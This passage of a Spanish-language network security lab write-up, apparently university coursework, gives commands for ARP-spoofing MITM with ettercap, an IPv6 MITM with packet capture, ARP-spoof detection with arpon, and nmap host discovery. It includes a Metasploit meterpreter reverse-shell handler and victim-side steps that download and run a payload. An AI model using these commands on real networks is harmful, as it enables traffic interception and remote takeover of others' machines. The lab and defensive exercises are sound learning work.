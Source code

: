 + etterfilter filtro.filter -o filtro.ef
+  ettercap -Tq -i ens33 -F filtro.ef -M arp:remote /10.11.49.49// /10.11.48.1//

En metaexploit:
+ use  exploit/multi/handler
+ set payload linux/x64/meterpreter_reverse_tcp
+  set lhost 10.11.48.56
+ set lport 2003
+ exploit

En shell víctima:
+ lynx www.udc.es (descargar el archivo)
+ chmod u+x ivan.exe
+ ./ivan.exe
### h) Haga un MITM en IPv6 y visualice la paquetería.
+  ettercap  -6 -T -q -i ens33 -M arp:remote //2002:0a0b:3131::/ //::10.11.48.1/
+ ettercap -i ens33 -Tq -M ndp:remote /10.11.49.49/2002:0a0b:3131::// /10.11.48.1//

En otra shell:
+ tcpdump -i ens33 -s 65535 -w ipv6file.pcap

En shell víctima:
+ curl http://[2002:0a0b:3138::]/index.html

### i) Pruebe alguna herramienta y técnica de detección del sniffing (preferiblemente arpon).
En /etc/arcpon.conf añadir:
```
#Router
10.11.48.1      dc:08:56:10:84:b9

#Ivanna
10.11.49.49     00:50:56:97:e5:b1
```

En shell defensora:
+ arp -a | grep "(10.11.48.1)" 

En shell atacante:
+ ettercap -i ens33 -TqM arp:remote //10.11.49.56/ //10.11.48.1/

En shell defensora:
+ arp -a | grep "(10.11.48.1)"  # Cambia la MAC del router
+ systemctl start arpon
+ arpon -d -i ens33 -S

En shell atacante:
+ ettercap -i ens33 -TqM arp:remote //10.11.49.56/ //10.11.48.1/

En shell defensora:
+ arp -a | grep "(10.11.48.1)"   # No cambia la MAC del router
+ systemctl stop arpon && systemctl disable arpon && systemctl mask arpon

### j) Pruebe distintas técnicas de host discovey, port scanning y OS fingerprinting sobre las máquinas del laboratorio de prácticas en IPv4. Realice alguna de las pruebas de port scanning sobre IPv6. ¿Coinciden los servicios prestados por un sistema con los de IPv4?
##### Host discovery
+ nmap -sL 10.11.48.0/23  # Hosts activos
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-08 20:46 CET
Nmap scan report for 10.11.48.0
Nmap scan report for 10.11.48.1
Nmap scan report for 10.11.48.2
Nmap scan report for 10.11.48.3
Nmap scan report for 10.11.48.4
```